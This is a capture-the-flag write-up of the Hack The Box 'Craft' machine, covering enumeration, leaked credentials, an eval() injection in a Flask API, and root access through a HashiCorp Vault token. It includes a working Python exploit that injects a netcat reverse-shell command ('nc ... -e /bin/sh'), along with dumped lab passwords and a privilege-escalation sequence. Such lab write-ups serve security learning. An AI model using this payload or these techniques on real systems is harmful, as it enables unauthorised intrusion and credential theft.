## Summary

Craft just retired today. I had lots of fun solving it and I learnt about a new interesting program called `vault`. Also, I loved the Silicon Valley theme. Its IP address is `10.10.10.110` and I added it to `/etc/hosts` as `craft.htb`. Without further ado, let’s jump right in!

## Scanning & Web App Enumeration

Like most boxes, a light `nmap` offered me enough information to start exploiting this app.


root@fury-battlestation:~/htb/blog/craft# nmap -sV -O craft.htb -oN scan.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-09 11:23 EST
Nmap scan report for craft.htb (10.10.10.110)
Host is up (0.12s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
443/tcp open  ssl/http nginx 1.15.8
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=11/9%OT=22%CT=1%CU=32616%PV=Y%DS=2%DC=I%G=Y%TM=5DC6E82
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=8)OPS
OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
OS:1NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.13 seconds
root@fury-battlestation:~/htb/blog/craft#



Port 443 is open, meaning that a (most likely) HTTPS site is running on it. I opened `https://craft.htb` in a browser:



In the upper right corner, I found buttons that take me to 2 different sub-domains: `api.craft.htb` and `gogs.craft.htb`. I added them to `/etc/hosts` and accessed them.

## Enumerating the 2 Sub-Domains

The first sub-domain, `api.craft.htb`, was not very interesting, because it hosted an API that could only be accessed with valid credentials.



Before testing the API, I wanted to make sure there’s nothing easier to exploit on `gogs.craft.htb`.



It turned out I was right. There’s a publicly-accessible repository that contains the API’s source-code:



Moreover, there was an interesting issue opened:




Dinesh:
Fix is live and seems to be working :)

c414b16057

Gilfoyle:
I fixed the database schema so this is not an issue now.. Can we remove that sorry excuse for a "patch" before something awful happens?



I viewed the commit that contained the patch and immediately saw the vulnerability:


https://gogs.craft.htb/Craft/craft-api/commit/c414b160578943acfe2e158e89409623f41da4c6





The ‘patch’ uses `eval()` to check that that the ABV value (whatever that was 🙂 ) is less than 1. `eval()` should never be used on user input, because a malicious attacker could use it to gain RCE. At this moment, I knew I could get a shell if I had valid a valid username/password combo.

_Note: For those of you that are wondering, the key that Dinesh supplied in the PoC code DID NOT WORK_.

## Credentials and ‘Shell As Root’

After I started looking for credentials, it wasn’t long before I found them. As it tuned out, Dinesh initially added a test script with his credentials:


https://gogs.craft.htb/Craft/craft-api/commit/10e3ba4f0a09c778d7cec673f28d410b73455a86






response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)



Now that I had valid credentials, I made a simple script that would spawn a reverse shell:


#!/usr/bin/env python

import requests
import json

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']

headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }

print("Spwaning a reverse shell on port 443...")
brew_dict = {}
brew_dict['abv'] = '__import__("os").system("nc 10.10.14.156 443 -e /bin/sh &") #'
brew_dict['name'] = 'bullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'bullshit'

json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print("Done!")



After running the script, a reverse shell connected on port 443. I upgraded it to a tty and saw that it was `root`:


root@fury-battlestation:~/htb/blog/craft# nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.156] from (UNKNOWN) [10.10.10.110] 45619
python -c 'import pty; pty.spawn("/bin/sh")'
/opt/app # whoami         
whoami
root
/opt/app # ls -lah /root
ls -lah /root
total 16
drwx------    1 root     root        4.0K Nov 10 11:16 .
drwxr-xr-x    1 root     root        4.0K Feb 10  2019 ..
-rw-------    1 root     root          21 Nov 10 11:16 .ash_history
drwx------    1 root     root        4.0K Feb  9  2019 .cache
/opt/app # ^[[24;12Rls -lah /home
ls -lah /home
total 8
drwxr-xr-x    2 root     root        4.0K Jan 30  2019 .
drwxr-xr-x    1 root     root        4.0K Feb 10  2019 ..
/opt/app # ^[[24;12R



The `root` was a lie! It took me some time, but I realized that I was inside a docker container.

## GOGS Credentials & User

As I was in the app’s directory, I read the contents of `dbtest.py` in order to find the credentials for the database:


#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
        sql = "SELECT `id`, `brewer`, `name`, `abv` FROM `brew` LIMIT 1"
        cursor.execute(sql)
        result = cursor.fetchone()
        print(result)

finally:
    connection.close()



The credentials were stored in `craft_api/settings.py`, so I listed that file’s contents:


# Flask settings
FLASK_SERVER_NAME = 'api.craft.htb'
FLASK_DEBUG = False  # Do not use debug mode in production

# Flask-Restplus settings
RESTPLUS_SWAGGER_UI_DOC_EXPANSION = 'list'
RESTPLUS_VALIDATE = True
RESTPLUS_MASK_SWAGGER = False
RESTPLUS_ERROR_404_HELP = False
CRAFT_API_SECRET = 'hz66OCkDtv8G6D'

# database
MYSQL_DATABASE_USER = 'craft'
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'
SQLALCHEMY_TRACK_MODIFICATIONS = False



After that, I connected to the database to see if there are any credentials I could use:


/opt/app # ^[[50;12Rpython
python
Python 3.6.8 (default, Feb  6 2019, 01:56:13) 
[GCC 8.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import pymysql
import pymysql
>>> from craft_api import settings
from craft_api import settings
>>> connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)
connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
...                              user=settings.MYSQL_DATABASE_USER,
...                              password=settings.MYSQL_DATABASE_PASSWORD,
...                              db=settings.MYSQL_DATABASE_DB,
...                              cursorclass=pymysql.cursors.DictCursor)
>>> 

>>> def exec_sql(sql):
        cursor = connection.cursor()
        cursor.execute(sql)
        #result = cursor.fetchone()
        result = cursor.fetchall()
        print(result)def exec_sql(sql):
...         cursor = connection.cursor()
...         cursor.execute(sql)
...         #result = cursor.fetchone()
...         result = cursor.fetchall()
... 
        print(result)
... 

>>> exec_sql("SHOW DATABASES;")
exec_sql("SHOW DATABASES;")
[{'Database': 'craft'}, {'Database': 'information_schema'}]
>>> exec_sql("SHOW TABLES")
exec_sql("SHOW TABLES")
[{'Tables_in_craft': 'brew'}, {'Tables_in_craft': 'user'}]
>>> exec_sql("SELECT * FROM user")
exec_sql("SELECT * FROM user")
[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]
>>> 



The database contained the following credentials:


dinesh 4aUh0A8PbVJxgd
ebachman llJ77D8QFkLPQB
gilfoyle ZEU3N8WNM2rh4T



I tried them on SSH, but they didn’t work. However, they seemed to be working on the GOGS platform. Gilfoyle had another private repository which seemed interesting:





I clicked on the `.ssh` folder to see if there are any keys:



Due to my VM configuration, I couldn’t change permissions of files in the current folder, so I created the `id_rsa.gilfoyle` file in `/root/.ssh/`:


root@fury-battlestation:~/htb/blog/craft# nano /root/.ssh/id_rsa.gilfoyle
root@fury-battlestation:~/htb/blog/craft# chmod 400 /root/.ssh/id_rsa.gilfoyle 
root@fury-battlestation:~/htb/blog/craft# ls -lah /root/.ssh/id_rsa.gilfoyle 
-r-------- 1 root root 1.9K Nov 10 06:35 /root/.ssh/id_rsa.gilfoyle
root@fury-battlestation:~/htb/blog/craft# ssh gilfoyle@craft.htb -i /root/.ssh/id_rsa.gilfoyle 

  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
   |\_|__|__|_/|
    \_________/

Enter passphrase for key '/root/.ssh/id_rsa.gilfoyle':



The key is protected by a password. Fortunately, Gilfoyle reused his GOGS password, `ZEU3N8WNM2rh4T`, so I had the ability to connect to the machine:


root@fury-battlestation:~/htb/blog/craft# ssh gilfoyle@craft.htb -i /root/.ssh/id_rsa.gilfoyle 

  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
   |\_|__|__|_/|
    \_________/

Enter passphrase for key '/root/.ssh/id_rsa.gilfoyle': 
Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Nov 10 06:18:22 2019 from 10.10.14.40
gilfoyle@craft:~$ id
uid=1001(gilfoyle) gid=1001(gilfoyle) groups=1001(gilfoyle)
gilfoyle@craft:~$ wc /home/gilfoyle/user.txt 
 1  1 33 /home/gilfoyle/user.txt
gilfoyle@craft:~$



The user proof starts with `bb` 🙂

## Getting Root

#### (for real, this time)

After getting the user flag, I remembered an interesting folder in the private repository named `vault`, so I checked it out:



After some googling, I found the [application’s website](https://www.vaultproject.io/).

Basically, the system uses token to grant access to services across machines. I also found a file named `.vault-token` in the user’s home directory, so I tried to see the token’s capabilities:


gilfoyle@craft:~$ cat ~/.vault-token 
f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9
gilfoyle@craft:~$ vault token capabilities f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9
root
gilfoyle@craft:~$



The token had root privileges! This means that I could turn its privilege into a shell with the right set of commands. After more googling, I found out the exact procedure. First, I needed to authenticate:


gilfoyle@craft:~$ vault login -address=https://vault.craft.htb:8200 token=f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9
Success! You are now authenticated. The token information displayed below
is already stored in the token helper. You do NOT need to run "vault login"
again. Future Vault requests will automatically use this token.

Key                  Value
---                  -----
token                f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9
token_accessor       1dd7b9a1-f0f1-f230-dc76-46970deb5103
token_duration       ∞
token_renewable      false
token_policies       ["root"]
identity_policies    []
policies             ["root"]
gilfoyle@craft:~$



After that, I connected to SSH as root using the One-Time Password (OTP) option of `vault`:


gilfoyle@craft:~$ vault ssh -mode otp root@localhost
WARNING: No -role specified. Use -role to tell Vault which ssh role to use for
authentication. In the future, you will need to tell Vault which role to use.
For now, Vault will attempt to guess based on the API response. This will be
removed in the Vault 1.1.
Vault SSH: Role: "root_otp"
Vault could not locate "sshpass". The OTP code for the session is displayed
below. Enter this code in the SSH password prompt. If you install sshpass,
Vault can automatically perform this step for you.
OTP for the session is: 7982e0d2-0391-7733-bb4e-d508ac1ddd75

  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
   |\_|__|__|_/|
    \_________/

Password: 
Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 27 04:53:14 2019
root@craft:~# id
uid=0(root) gid=0(root) groups=0(root)
root@craft:~# wc /root/root.txt 
 1  1 33 /root/root.txt
root@craft:~#



The password is the OTP code given by the application a few rows up. In my case it was `7982e0d2-0391-7733-bb4e-d508ac1ddd75`.

Also, the root flag starts with `83` 😉

If you liked this post and want to support me, please [follow me on Twitter](https://twitter.com/yakuhito) 🙂

Until next time, hack the world.

yakuhito, over.

